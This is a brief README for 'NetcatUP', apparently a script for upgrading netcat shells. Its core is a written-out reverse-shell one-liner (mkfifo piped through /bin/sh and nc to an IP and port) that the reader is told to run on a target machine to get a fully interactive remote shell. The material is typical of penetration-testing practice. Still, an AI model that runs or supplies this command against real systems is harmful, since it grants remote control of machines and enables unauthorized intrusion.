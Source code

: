 # NetcatUP


run `./netcatup.sh port`  
run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc targetip port >/tmp/f` on the target machine  
You should now have a fully interactive shell with bash history and tab completion  

### credits: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### todo:  
* add bind support
